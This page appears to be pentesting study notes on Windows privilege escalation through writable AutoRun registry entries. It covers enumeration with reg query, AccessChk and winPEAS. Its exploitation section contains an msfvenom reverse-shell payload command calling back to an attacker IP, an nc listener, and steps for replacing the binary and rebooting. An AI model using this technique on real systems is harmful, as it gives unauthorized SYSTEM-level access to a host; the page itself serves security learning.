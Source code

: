
# AutoRuns
AutoRuns are commands that can be configured to *run at startup with elevated privileges*. They are configured in the [registry](../../../computers/windows/registry.md). These can be abused for privilege escalation *if you're able to write to the executable* as well as restart the system.
## Enumeration
### Manual Enumeration
You can use `reg query` to enumerate for AutoRun executables manually:
```powershell
PS C:\Users\admin> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    VBoxTray    REG_EXPAND_SZ    %SystemRoot%\system32\VBoxTray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```
The output shows that "SecurityHealth" "VBoxTray" and "My Program" are all AutoRun executables. Next, we can use [AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) (from SysInternals) to check which of these we have permissions to modify:
```powershell
PS C:\Users\admin> .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WINDOWS-10-OSCP\vboxuser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```
The output if for `program.exe` and shows that we (all users) have full access to the file.
### Automated Enumeration
Use [winPEAS](../../../cybersecurity/TTPs/actions-on-objective/tools/winPEAS.md) and its `applicationsinfo` module to check for AutoRun executables. Check in the section titled "Autorun Applications":
```powershell
.\winPEASany.exe quiet applicationsinfo

...

 [+] Autorun Applications(T1010)
   [?] Check if you can modify other users AutoRuns binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup
    Folder: C:\Windows\system32
    FolderPerms: Administrators [WriteData/CreateFiles]
    File: C:\Windows\system32\SecurityHealthSystray.exe
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    RegPerms: Administrators [TakeOwnership GenericAll]
   =================================================================================================

    Folder: C:\Windows\system32
    FolderPerms: Administrators [WriteData/CreateFiles]
    File: C:\Windows\system32\VBoxTray.exe
    FilePerms: Administrators [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    RegPerms: Administrators [TakeOwnership GenericAll]
   =================================================================================================

    Folder: C:\Program Files\Autorun Program
    FolderPerms: Administrators [AllAccess]
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess], Administrators [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    RegPerms: Administrators [TakeOwnership GenericAll]
   =================================================================================================

...
```
In the above output, the file called `program.exe` is an AutoRun program with "AllAccess" file permissions for every user. 
## Exploitation
After verifying that `program.exe` is an AutoRun that we can modify, we can replace it with whatever executable we want. Let's replace it with a [reverse shell](../../../cybersecurity/TTPs/exploitation/rev-shell.md) from [MSFvenom](../../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
### Create the Revshell
```bash
┌─[25-07-28 19:11:00]:(root@10.0.2.15)-[~/tibs]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.69.4 LPORT=44444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: program.exe
```
#### Start your listener
```bash
nc -lvp 44444
```
### Replace the Binary & Restart Computer
Replace the binary with your revshell (make sure to make a copy of the original first). Then, to execute the binary, *you'll have to restart the target machine*. If you try to just execute the program, Windows Defender may stop it.
```powershell
shutdown /r /t 0 
```


> [!Resources]
> - [AccessChk.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) 